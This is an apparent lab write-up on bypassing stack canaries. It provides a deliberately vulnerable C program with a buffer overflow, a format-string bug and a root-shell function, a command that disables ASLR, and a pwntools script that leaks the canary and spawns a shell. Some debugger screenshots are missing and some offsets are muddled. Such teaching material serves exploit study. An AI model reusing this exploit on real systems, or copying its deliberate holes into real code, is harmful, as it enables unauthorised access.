

# 1. Stack Canary:
- Stack canaries or security cookies are tell-tale values added to binaries during compilation to protect critical stack values like the Return Pointer against buffer overflow attacks. If an incorrect canary is detected during certain stages of the execution flow, such as right before a return (RET), the program will be terminated. Their presence makes exploitation of such vulnerabilities more difficult. But not impossible.
---

# 2. Canary Bypassing
## 2.1 Setting up environment
Source code:
```c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>
#include<string.h>

void getshell(void){
  setuid(0);
  system("/bin/sh");
}

void init(){
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
}

void vuln(){
  char buf[100];
  for (int i=0; i<2; i++){
    read(0, buf, 0x200);
    printf(buf);
  }
}

int main(void){
  init();
  puts("Hello Hacker!");
  vuln();
  return 0;
}
```
Compile it with **gcc**:
```bash
gcc -m32 -fstack-protector-all -no-pie vulnerable.c -o vulnerable 
```

In this case, we will turn off **ASLR**:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 2.2 Finding offset
Make 150 **A** and send it to check if it crashed


Note that, the program `arboted`, not a `segment fault`, and there is a string - `*** stack smashing detected ***: terminated` - which is protected by stack cookie

In `vuln()`, it is a function caused Buffer Overflow, so open debugger and disassembly to see what we got


We can see in here, there is the cookie that check fail local, it's stack canary also, let's make a breakpoint at `nop` and get more information


In \<Vuln+86\>, the canary move \[ebp-0xc\] to eax. So we can see what the value is


In here, we got `0x16975100`, last 2 byte `00` meaning the program is corrected, and continue it.

We already know how the flag looked like. Let's get the canary offset, and the program offset to make crash the program


Above image is the canary offset, next is image to get offset of buffer, press `stepi` to step to next instruction and stop at `call   0x80493d0 <__stack_chk_fail_local>`.




Then, continue the program, the program will be crashed and return address, get the offset.


## 2.2 Proof of Concept (PoC)

We have already known canary size is **100** and buffer size is **116**, but we don't know how many bytes will be added to the flag if the program doest accept, so make 100 buffer **A** to see.


As above image, I changed the value from `0x883c570a` to  `0x883c5700` which mean the program will continue without aborted by canary. press `continue` and the program works ok.


- Writting out the exploit with `pwn` library of python:
```python
#!/usr/bin/python3
from pwn import *
from struct import pack

get_shell = pack('<I', 0x80491c2) # Address of getshell()
exploit = process('./vulnerable')
exploit.recvuntil(b"Hello Hacker!")

payload = b'A'*100
exploit.sendline(payload)
exploit.recvuntil(b'A'*100)
canary = u32(exploit.recv(4))-0xa
log.info("Canary: " + hex(canary))

payload = b'A'*100 + p32(canary) + b'A'*12 + get_shell
exploit.send(payload)
exploit.recv()
exploit.interactive()
```


---
# 3. Reference
- [Linux Exploit Development](https://my.ine.com/path/019938d9-11cf-459b-b8ee-e662e10515f2)
- [SANS - Stack Canaries – Gingerly Sidestepping the Cage](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)